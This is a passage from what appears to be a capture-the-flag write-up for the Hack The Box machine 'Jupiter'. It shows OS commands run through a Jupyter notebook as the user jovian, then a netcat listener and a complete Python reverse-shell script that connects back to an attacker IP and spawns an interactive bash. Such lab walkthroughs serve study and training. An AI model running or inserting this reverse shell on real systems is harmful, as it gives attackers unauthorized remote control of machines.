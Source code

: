 By clicking on that button, *Python3 (ipykernel)*, we will be redirected to the interface where we can execute python code: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-19 01_30_15-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Python script execution interface</i></center>
<br/>

Let's, for example, run the `whoami` command via the python script below:
```python
import os
whoami = os.system("whoami")
print(whoami)
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 23_39_12-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>whoami script</i></center>
<br/>

* As can be seen, we are running OS commands as the `jovian`.

> **NOTE**: *You can run the script by pressing `CTRL + ENTER` hotkey*

### **<strong><font color="DarkKhaki">Shell as jovian</font></strong>**

We can gain a fully interactive shell, by following the steps below:

**1-** Start a netcat listener on a port of your choice (e.g. **9997**) <br/>
```bash
$ nc -nlvp 9997
```

**2-** Run the python script: <br/> 
```python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.126",9997)) # CHANGE THE IP AND PORT
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```
